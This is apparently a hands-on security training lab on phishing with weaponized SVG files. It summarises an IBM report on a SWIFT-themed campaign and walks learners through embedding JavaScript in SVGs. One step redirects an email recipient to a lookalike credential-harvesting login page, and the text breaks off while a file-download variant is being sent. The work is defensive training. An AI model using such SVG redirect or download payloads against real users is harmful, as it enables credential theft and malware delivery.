# Studying SVG Phishing Campaigns

In the summer of 2025, weaponized Scalable Vector Graphic (SVG) files have been used in phishing campaigns. SVGs are a file type that can render graphics similar to PNG or JPEG file types, but they also allow for advanced customization where JavaScript code can be embedded within. Because of this, malicious actors have started to add customized SVG files to their phishing attacks as another vector for stealing credentials and other data from their victims. This lab will cover how these SVGs are weaponized, how the attacks are carried out and the defensive measures that mitigate these types of attacks.

- This lab is expected to take 60 minutes.

*Please consider filling out the lab feedback survey at the bottom of your screen. The survey is available to you at any time while conducting the lab.*

| &#9888; CAUTION                                              |
| ------------------------------------------------------------ |
| You must complete *all* phases of the lab to receive your completion certificate. |

## Learning Objectives
- Understand SVG files and how they are created.
- Understand how SVGs can be used as an attack vector.
- Perform a phishing attack with a malicious SVG.
- Analyze SVG source code. 
- Understand security measures that mitigate malicious code execution.

## Learner Expectations
- Learners should be comfortable using an Internet browser.
- Learners should be comfortable with command-line operations.
- Learners should be comfortable with using a text editor. VS Code will be used in this lab.
- Learners should be familiar with email phishing.

## FOCAL and NICE Framework Mappings

This lab maps with <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a> area 3 (Defensible Architecture), by improving resilience and security to mitigate incidents.

**NICE Work Role**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">Systems Security Analysis, Vulnerability Analysis, Defensive Cybersecurity.</a>

**NICE Tasks**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1084</a>: Identify anomalous network activity.
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1118</a>: Identify vulnerabilities.
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1212</a>: Implement cybersecurity countermeasures for systems and applications.
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1255</a>: Perform cybersecurity testing of developed applications and systems.

## Scenario

This lab begins by explaining the background of the SVG file type and explains how it can be used maliciously. Then it elaborates on a real-world phishing campaign that revolved around the use of weaponized SVGs. Next, create an SVG for use in penetration testing of a vulnerable email server and emulate the attack in the phishing campaign. Finally, configure security measures to prevent SVGs from executing any malicious code and review additional measures to harden your systems.

While additional systems are available over the lab network, you will be performing all tasks from the provided Kali Linux machine.

## System Tools and Credentials

| System | OS type/link |  Username | Password |
|--------|---------|-----------|----------|
| kali | Kali | user | tartans |

<!-- cut -->

<details>
<summary>
<h3>Background Information: SVG </h3>
</summary>
<p>

The following section will describe what an SVG is, how it works, and how it can be created. Additionally, it will review a recent study performed by IBM, which discovered a global phishing campaign utilizing weaponized SVGs. This initial section is expected to be a 10-minute read.

### The Creation of the SVG 

Scalable Vector Graphic (SVG) files were developed between 1996 and 1999 and were officially introduced as a standard by the World Wide Web Consortium (W3C). 

| &#128270; INFORMATION |
|---|
|_The World Wide Web Consortium is an international non-profit organization where individuals and other organizations work together to develop a standard for the Internet. You can read more about the W3C <a href="https://www.w3.org/about/" target="_blank">here.</a>_|

The SVG file type was created in response to a desire to create a graphic that could be presented in different formats and mediums while maintaining high quality. SVGs provide an easier way to create images since they are text-based, improving webpage loading times with their smaller size.

SVGs offer the ability to create high-quality, responsive, and interactive graphics that work seamlessly across all major browsers and devices.

### What is an SVG?

At its base, SVG is defined as a markup language for describing two-dimensional graphics in XML. 

| &#128270; INFORMATION |
|---|
|_XML (Extensible Markup Language) is a markup language similar in format to HTML, but without predefined tags to use. Instead, you define your own tags designed specifically for your needs. XML has been standardized and is able to be embedded and rendered within HTML code to be presented on webpages. You can read more about XML in the <a href="https://developer.mozilla.org/en-US/docs/Web/XML/Guides/XML_introduction" target="_blank">Mozilla XML Intro Guide</a> and <a href="https://www.w3.org/TR/2008/REC-xml-20081126/" target="_blank">the W3C standard for XML</a>._|

SVGs are similar to other image file types where they are able to present a graphical image. However, SVGs provide an alternative method for creating and rendering graphics to the end user. The following sections cover some of the key characteristics that separate SVGs from other image file types.

#### Structure

When discussing file types that are used to display digital images, the two main types are `raster` and `vector`.

##### Raster

The `raster` file type is very common, such as PNG, JPEG, or GIF. `Raster` images are made up of a group of pixels where each pixel is a specific color and they are formatted together in a fixed grid. When this grid of pixels are viewed together they create an image. This is the basis of how raster images are formed and presented. 

Raster images are also known as `bitmap` images. This is due to the nature of how each pixel represents a single color and that color is stored as a binary number. That binary number consists of a certain number of bits. The range of colors the pixel can represent depends on the number of bits used. View the table below to see how the number of bits changes the range of colors available.

| Image Type | Bits per Pixel | Pixel Color Range |
| --- | --- | --- |
| 1-bit image | 1 bit | Black or White |
| 8-bit image | 8 bits | 256 possible color combinations |
| 24-bit image | 24 bits | 16,777,216 possible color combinations |
| 32-bit image | 32 bits | 16,777,216 possible color combinations + ability to affect transparency |

| &#128270; INFORMATION |
|---|
|_As a refresher, each binary bit can have a value of 0 or 1. The number of possible values of a binary value depends on the number of bits. An 8-bit value has 2^8 or 256 possible values. A 4-bit value, like hexadecimal values, have 2^4 or 16 possible values. This is why hexadecimal numbers include the numbers 0-9 and the letters A-F (16 characters)._|

You can learn more in <a href="https://www.geeksforgeeks.org/computer-graphics/raster-graphics/">this article about raster images.</a>

##### Vector

Instead of using pixels, SVG files utilize vectors to create their graphics. SVGs use mathematical equations to define shapes, lines, and colors in a grid that present a graphical image to the user when combined. This is possible because an SVG is created and defined with XML code, which at a high level means an SVG is just a text file. It can be created, edited, or updated all within a text editor. 

The XML code in the SVG uses standard formatting and syntax to declare it is an SVG type. Beyond that, the user can write instructions in XML to define what will be shown. SVGs use a coordinate system to plot shapes along its X and Y axis, and the XML code defines where those plot points are and what shapes are to be plotted.

This is the basis of how SVGs are created and rendered. We'll go more in depth on SVG creation during the lab.

#### Integration and Customization

We previously stated that XML and HTML are similar in format, as XML uses tags and elements to render objects. Creating SVGs with XML means that they adhere to the same principles of HTML, CSS, and JavaScript. 

This provides a developer with the ability to customize the graphics rendered in an SVG with cascading style sheets (CSS) as well as other styling formats that are more unique to XML. SVG drawings can be styled like HTML to provide behaviors like being interactive, dynamic, or even configured to have their own animations. They support a wide array of behaviors, and the developer can configure these within the XML.

With the additional support of JavaScript, SVGs can also utilize the `<script>` tag the same way JavaScript does in HTML. This allows JavaScript code to be embedded and configured within the file to perform a certain action or execute when specific events occur, like having the webpage load or hovering over the SVG content with the cursor.

#### The Security Implications

The use of JavaScript was intended to allow developers to encapsulate all of the logic and behavior of an SVG within so it will always be rendered the same way, regardless of where it is hosted. The SVG file type was created to be benign and enhance a user's interaction with the webpage, but unfortunately, this functionality has been the vector for malicious behaviors in recent phishing campaigns. 


</p>
</details>

<details>
<summary>
<h3>Phishing Campaign: Weaponizing SVGs to Target Financial Institutions</h3>
</summary>
<p>

In 2025, while IBM X-Force was performing analysis of ongoing worldwide attacks, they discovered a global phishing campaign leveraging weaponized SVG files as the initial vector of attack.

| &#128270; INFORMATION |
|---|
|_IBM X-Force includes a team of threat hunters, responders, and investigators that specialize in incident preparedness, detection, response and recovery. They perform incident response to malicious attacks and aim to reduce the business impact of a breach and improve resiliency to attacks. More can be read on it <a href="https://www.ibm.com/services/incident-response" target="_blank">here.</a>_|

In the `Phishing Mitigation with Multifactor Authentication` lab, it was explained that phishing attacks are a form of social engineering. Thes types of attacks use email, text messages, or malicious websites to solicit personal information by posing as a trustworthy organization or resource.

In common phishing attacks, actors imitate a reputable resource or organization in order to convince the victim to provide private information. The example used in the MFA lab was:

*An attacker may send emails seemingly from a reputable credit card company or financial institution that requests account information, often suggesting that there is a problem that requires urgent attention. When users respond with the requested information, attackers can use it to gain access to the victim's accounts.*

Thanks to the use of weaponized SVGs, this phishing campaign used different methods to perform the phishing attack.

### Malicious Delivery

The campaign began by sending emails impersonating SWIFT Global Services, which is an organization used by many financial institutions.

| &#128270; INFORMATION |
|---|
|_Swift Global Services refers to something called the SWIFT Network, which is used by many financial institutions, and it provides a quick and secure method for performing international wire transfers._|

In the email scammers prompt the target to review time-sensitive documents to confirm recent transactions.



*https://www.ibm.com/think/x-force/weaponized-svgs-inside-a-global-phishing-campaign-targeting-financial-institutions*

The document for review is attached to the email, and at first glance it appears as a legitimate document. In actuality it is a weaponized SVG that contains JavaScript waiting to be executed.



*https://www.ibm.com/think/x-force/weaponized-svgs-inside-a-global-phishing-campaign-targeting-financial-institutions*

When opened, the victim would be prompted to download the PDF report. But upon clicking on the file icon JavaScript would execute and download a zip archive file directly to the system.

### Prepping the Attack

Upon extracting the contents from the zip file, the victims would then see a file named `Swift Transaction Report.js`. It contains JavaScript code that used a combination of obfuscation techniques to avoid detection and hide its intended behavior. 

| &#128270; INFORMATION |
|---|
|_Obfuscation is a technique used in software development to make the code unreadable in attempts to make its behavior and functionality hidden from others._|

When the victim attempts to open the report, it will execute the JavaScript code and trigger a download of Java Archive (JAR) files. The JAR file name would follow the same name convention as the previous file with one known example being `Swift Confirmation Copy.jar`.

| &#128270; INFORMATION |
|---|
|_JAR, or Java Runtime Environment, is a package file that combines multiple Java files into a single file that can be executed._|

The downloaded JAR file would then be executed and perform a variety of system checks to validate the environment it was in. Once complete, it would perform additional downloads from trusted cloud service resources owned by the attackers.

### Malware Execution and Deployment

Once the malicious downloads evaded all the checks, it would begin unpacking and executing the payloads. The malware would write to persistent locations on the host to ensure it persisted after reboots. 

The behavior of the malware installed in this campaign was versatile and allowed the malicious actors to tailor it to a variety of victim environments. Below are some of the functionalities they were able to implement:

- Enable remote shell access and file execution, allowing the attacker to directly access the compromised system
- Perform credential harvesting, providing the attackers with credentials entered or stored on the compromised system
- Perform Distributed Denial of Service (DDoS), using the compromised system as a "bot" to perform a DoS attack on another target
- Enable webcam access
- Perform keylogging, storing keystrokes performed on the compromised machine
- Perform clipboard monitoring
- Perform file manipulation
- Retrieve information from Remote Desktop sessions 
- Retrieve user and network session information
- Retrieve public IP geolocation information

Phishing attacks and their aftermath can cause irreparable damage to an organization. SVGs allow for creating a new method of infection thanks to their innate functionality and the manner in which they appear benign to the victim. It is important to understand and be aware of weaponized file types such as SVGs.

If you would like to read more about this recent find, check out the full <a href="https://www.ibm.com/think/x-force/weaponized-svgs-inside-a-global-phishing-campaign-targeting-financial-institutions">IBM article</a>.

</p>
</details>

## Phase 1: Phishing with SVGs

<details>
<summary>
<h3>Creating your first SVG</h3>
</summary>
<p>

Let's begin by learning how to craft our own SVG.

**Please Note: SVGs can be created as stand-alone XML files. For the purposes of this lab we will be creating SVGs inside of HTML code and rendering them within an email.**

1. Open the `kali` system console and login with the username `user` and the password `tartans`. Once logged in, double-click the Firefox icon from the Desktop.

2. (**Kali**, **Firefox**) The home page should be the `https://skills.hub/lab` landing page. NOTE: If you see the page stating that the server is starting up, please wait a minute or two for the site to initialize and refresh the page. 

3. (**Kali**, **Firefox**) In the navigation bar at the top, you will see a tab labeled `Hosted Files`. You should see the files `basic.html`, `page_redirect.html`, and `file_downloader.html`. Click and download all of them. 

4. (**Kali**) Back on the Desktop, double-click the Terminal icon or open the Terminal from the top menu bar.

5. (**Kali**, **Terminal**) In the terminal, run the following commands:

```bash
mkdir -p ~/Desktop/svgs/
mv ~/Downloads/*.html ~/Desktop/svgs/
cd ~/Desktop/svgs/
```

This will move the downloaded files into the newly created `svgs` directory and then move you into that directory.

6. (**Kali**) Open VS Code by double-clicking the Visual Studio Code icon from the Desktop.

7. (**Kali**, **VS Code**) We will be opening the directory `svgs` in VS Code since that is where the files for editing will be located. You can do this by clicking on the `Open Folder` link currently shown in the initial VS Code window, selecting the Desktop, and clicking `Select`. You could also click on the `File` tab in the taskbar at the top, selecting `Open Folder`, and then click `Desktop` on the left side. The `svgs` folder should be shown within this heading. Click it and hit the `Select` button.



8. (**Kali**, **VS Code**) There will be a panel on the left side of VS Code that shows all the files within the `svgs` directory. Click on the `basic.html` file to view it.

*Note that the directory structure of the selected folder is visible in the pane on the left, while the specific file being viewed is visible on the right. You can switch between files using the Explorer pane and each file viewed will receive its own tab on the right.*



We mentioned previously that SVGs can exist as standalone XML or created within HTML. All of the files we downloaded are HTML files that contain SVG code within.

To start, let's view how the `basic.html` file renders.

9. (**Kali**, **Terminal**) Return to the Terminal and ensure you are still located in the `svgs` directory and then run the following command:

```bash
python3 -m http.server
```

This will run a basic HTTP server that will host the files in the current `svgs` directory.

10. (**Kali**, **Firefox**) Return to Firefox and open a new browser tab. Then browse to the URL `http://127.0.0.1:8000`. 


11. (**Kali**, **Firefox**) Click on the `basic.html` link.


There is an image of some squares with the text `Click me!`, but upon clicking it nothing happens. Let's edit the SVG to add JavaScript that will react when the image is clicked. You can minimize the Firefox window for now.

**NOTE: You can leave this Python web server running if you wish. You can continue to use this website as a way to view the SVGs you will be working on as the lab progresses.**

| &#8505; NOTE |
|---|
|_Depending on if you write the code manually or if you copy & paste it, the format of the code may change. Please make sure to reference the full code block below when the script is completed to ensure your code matches._|

12.  (**Kali**, **VS Code**) Return to VS Code. The file `basic.html` should still be open. On line 13 below the start of the section labeled `Code Block` insert the line:

```html
<script type="text/javascript">
```

Once finished, press `Enter`. It should automatically create the closing script tag `</script>`.

**If you copy and paste the code, the closing `script` tag may not be automatically created. If it isnt, you will need to create it manually. Make sure to reference the full code block below when the script is completed to ensure your code matches.**

This declares the start of the section that will contain the JavaScript code to be executed. 

13.   (**Kali**, **VS Code**) On line 14, insert the line:

```js
var clickableSquare = document.getElementById('clickable-square');
```

Once finished, press `Enter`. 

This declares a variable `clickableSquare` and assigns it the HTML element `rect` that has the ID `clickable-square`. This element is located on line 7.

14. (**Kali**, **VS Code**) On line 15 and 16, insert the following lines:

```js
clickableSquare.addEventListener('click', function() {
  alert('Great Job!');
});
```

Once finished, press `Enter`. 

This creates an event listener and assigns it to the variable `clickableSquare` that we just created. The event listener is configured to respond when the associated element is clicked from the webpage. It then runs the code inside the code block. The code block only contains one command and that is `alert('Great Job!')`. This command generates a pop-up that will contain the text contained within the parenthesis when run.

When complete, your final script should look like this:

```html
<div class="svg-container">
    <svg width="200" height="200" xmlns="http://www.w3.org/2000/svg">
        <!-- Outer light blue square -->
        <rect width="200" height="200" x="0" y="0" fill="lightblue"/>

        <!-- Inner light red square -->
        <rect id="clickable-square" width="100" height="100" x="50" y="50" fill="lightcoral" cursor="pointer"/>

        <!-- Text inside the inner square -->
        <text x="100" y="105" text-anchor="middle" font-family="Arial" font-size="16" fill="white" pointer-events="none">Click me!</text>

        <!-- Code Block -->        
        <script type="text/javascript">
            var clickableSquare = document.getElementById('clickable-square');
            clickableSquare.addEventListener('click', function() {
                alert('Great Job!');
            });
        </script>
        <!--            -->
    </svg>
</div>
```

15. (**Kali**, **VS Code**) Once completed, save the file (hit `File`-> `Save`, or `ctrl`+`s`).


Now let's view what it looks like when rendered on the page.

16. (**Kali**, **Firefox**) Return to Firefox. You should still be on the page showing the previous SVG `basic.html`. Click on the `Refresh` button.



17. (**Kali**, **Firefox**) Click on the square where it says `Click me!`. You should see the pop-up appear with the message `Great Job!` that we created.

Creating an SVG with JavaScript embedded within is that easy. In the example above, we made a basic benign SVG with JavaScript. Next we'll be creating SVGs that contain simple malicious JavaScript and using them in a phishing attack.

</p>
</details>


<details>
<summary>
<h3>Access Mail Accounts</h3>
</summary>
<p>

To test sending the malicious SVGs, we will be sending emails from an `attacker` account to the `victim` account. Both accounts have already been created for you. 

1. (**Kali**, **Firefox**) Open a new tab and browse to the URL `https://web-mail.skills.hub`.

| &#128270; INFORMATION |
|---|
|_If you ever forget or need to re-visit the `web-mail` website, a link to it can be found on the `https://skill.hub` website under the `Bookmarks` tab._|


2. (**Kali**, **Firefox**, **Web Mail Site**) Click the `Sign In` button and sign in with the credentials:

```
Username: victim
Password: tartans
```

You should be redirected to the victim's inbox.

3. (**Kali**) Back on the Desktop, click on the Kali logo button (menu) in the top left of the screen. 


4. (**Kali**) In the dropdown there is a search bar. Enter the word `chrome`. You should find `Chromium Web Browser` in the results. Click it to launch Chromium. 



**If you get a pop-up regarding the keyring, enter the password `tartans` and hit `enter`.**

5. (**Kali**, **Chromium**) In the browser, enter the URL `https://web-mail.skills.hub`. 

6. (**Kali**, **Chromium**, **Web Mail Site**) Click the `Sign In` button and sign in with the credentials:

```
Username: attacker
Password: tartans
```

You should now be logged into the `victim` account in `Firefox` and the `attacker` account in `Chromium`. Keep this in mind as we continue.

</p>
</details>


<details>
<summary>
<h3>Create Malicious SVG and Trigger Phishing Attack</h3>
</summary>
<p>

1. (**Kali**, **VS Code**) Back in VS Code, from the left panel click on the file named `page_redirect.html`
  
As you've likely realized, we will be adding JavaScript code to this SVG to perform a redirect to another URL when rendered.

| &#8505; NOTE |
|---|
|_Depending on if you write the code manually or if you copy & paste it, the format of the code may change. Please make sure to reference the full code block below when the script is completed to ensure your code matches._|

2. (**Kali**, **VS Code**) On line 6 below the start of the section labeled `Code Block`, insert the line:

```html
<script type="text/javascript">
```

Once finished, press `Enter`. Like before, it should automatically create the closing script tag `</script>`.

3. (**Kali**, **VS Code**) On lines 7-9, insert the following:

```js
setTimeout(function() {
  window.location.href = "https://web--mai1.skills.hub/login";
}, 1000);
```

This utilizes the function `setTimeout`, which is used when you want to execute a piece of code but want to add a delay before the code is executed. The length of the delay can be customized in units of milliseconds. In the above example the delay time is configured to `1000 milliseconds`, or 1 second.

The piece of code being executed is the single line:

```js
window.location.href = "https://web--mai1.skills.hub/login";
```

This line of code tells the page to redirect to the URL `https://web--mai1.skills.hub/login`. 

**NOTE: As the one performing the attacks, we have provided a fake malicious website link to imitate the real web-mail site that the victim account will be redirected to during the phishing attack. You will be introduced to this website in the following steps.**

Your code should look like this:

```html
<div class="svg-container">
    <svg xmlns="http://www.w3.org/2000/svg" width="300" height="200">
        <rect width="100%" height="100%" fill="red" />
        <text x="50%" y="50%" font-size="20" fill="white" text-anchor="middle">Click Me!</text>
        <!-- Code Block -->
        <script type="text/javascript">
            setTimeout(function() {
                window.location.href = "https://web--mai1.skills.hub/login";
            }, 1000);
        </script>
        <!--            -->
    </svg>
</div>
```

4. (**Kali**, **VS Code**) Once completed, save the file (hit `File`-> `Save`, or `ctrl`+`s`).

Now let's send the file from our `attacker` account to the `victim` account.

5. (**Kali**, **Chromium**, **Web Mail Site**) Return to Chromium and click on the `Compose` button. A pop-up will appear containing a form. Fill out the form with the following information:

`To:`         victim@skills.hub

`Subject:`    redirect

`Message:`    **Copy the contents of the `page_redirect.html` file here.**

It should look like this when complete:



6. (**Kali**, **Chromium**, **Web Mail Site**) Click `Send` to send the message.

7. (**Kali**, **Firefox**, **Web Mail Site**) Return to Firefox and you should see that the victim's email inbox has received the message. Click on the email to view it.

You should notice that the page redirects and you are presented with the same login page you used previously. Some people might think the website had an error or glitch where it just automatically logged you out. But this "glitch" is due to the hidden functionality we placed within the SVG.

If you look at the URL, you should notice it's not the same as the one we used to login to the original web mail client. The difference is minor, but it is there. The URL you're currently on is `https://web--mai1.skills.hub`. This should be an indicator that the email you received was the start of an attempted phishing attack originating from the SVG.

Let's continue as if we were not aware of the redirect. 

8. (**Kali**, **Firefox**, **Web Mail Site**) On the login page, log in with the same credentials used before:

```
Username: victim
Password: tartans
```

Upon clicking `Sign in`, you will be redirected back to the real web-mail login (`https://web-mail.skills.hub`). This hints that the previous website was fake and now your credentials may have been stolen.

</p>
</details>


<details>
<summary>
<h3>Imitate the IBM Report Attack</h3>
</summary>
<p>

Let's walk through a second phishing attack where we'll be triggering a file download similar to the scenario that occurred in the campaign from the IBM article.

1. (**Kali**, **VS Code**) In VS Code, from the left panel, click on the file `file_downloader.html`

You should see that this HTML file is much larger than the others as it contains much more information and styling, creating a more realistic representation of a phishing attack using an SVG.

2. (**Kali**, **Chromium**, **Web Mail Site**) Return to Chromium. Still logged in as the `attacker` account, click `Compose` to craft a new email with the following content:

`To:`         victim@skills.hub

`Subject:`    URGENT SECURITY UPDATE

`Message:`    **Copy the contents of the `file_downloader.html` file here.

It should look like this when complete:

